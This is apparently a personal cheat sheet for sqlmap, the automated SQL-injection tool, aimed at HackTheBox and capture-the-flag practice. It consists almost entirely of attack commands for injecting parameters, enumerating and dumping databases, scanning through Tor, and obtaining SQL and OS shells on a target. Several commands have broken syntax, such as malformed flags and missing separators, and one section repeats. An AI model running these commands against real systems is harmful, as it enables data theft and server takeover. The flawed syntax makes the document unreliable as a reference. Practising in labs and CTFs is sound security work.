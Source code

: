 ```yaml
---
layout: memory
title: sqlmap Cheatsheet
---
```


Quick writeup and cheat sheet for [sqlmap](https://github.com/sqlmapproject/sqlmap) the automated SQLi and database takeover tool to speed up HTB/CTFs

<!-- cSpell:disable -->

### Simple usage
```bash
sqlmap -u "$URL"
```

### Specify target DBMS to MySQL
```bash
sqlmap -u "$URL" --dbms=mysql
```

### Using a proxy
```bash
sqlmap -u "$URL" --proxy=http://proxy_address:port
```

### Specify param1 to exploit
```bash
sqlmap -u "$URLparam1=value1&param2=value2" -p param1
```

### Use POST requests
```bash
sqlmap -u "http://target_server" --data=param1=value1&param2=value2
```

### Access with authenticated session
```bash
sqlmap -u "http://target_server" --data=param1=value1&param2=value2 -p param1 cookie='my_cookie_value'
```

### Basic authentication
```bash
sqlmap -u "http://target_server" -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password
```

### Specify parameter to exploit
```bash
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2
```

### Specify parameter to exploit in 'nice' URIs
```bash
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1
```

### Evaluating response strings
```bash
sqlmap -u "$URL" --string="This string if query is TRUE"
sqlmap -u "$URL" --not-string="This string if query is FALSE"
```

### List databases
```bash
sqlmap -u "$URL" --dbs
```

### List databases
```bash
sqlmap -u "$URL" --dbs
```

### List tables of database target_DB
```bash
sqlmap -u "$URL" -D target_DB --tables
```

### Dump table target_Table of database target_DB
```bash
sqlmap -u "$URL" -D target_DB -T target_Table -dump
```

### List columns of table target_Table of database target_DB
```bash
sqlmap -u "$URL" -D target_DB -T target_Table --columns
```

### Scan through TOR
```bash
sqlmap -u "$URL" --tor --tor-type=SOCKS5
```

### Get SQL Shell
```bash
sqlmap -u "$URL" --sql-shell
```

### Get OS Shell
```bash
sqlmap -u "$URL" --os-shell
```
<!-- cSpell:enable -->
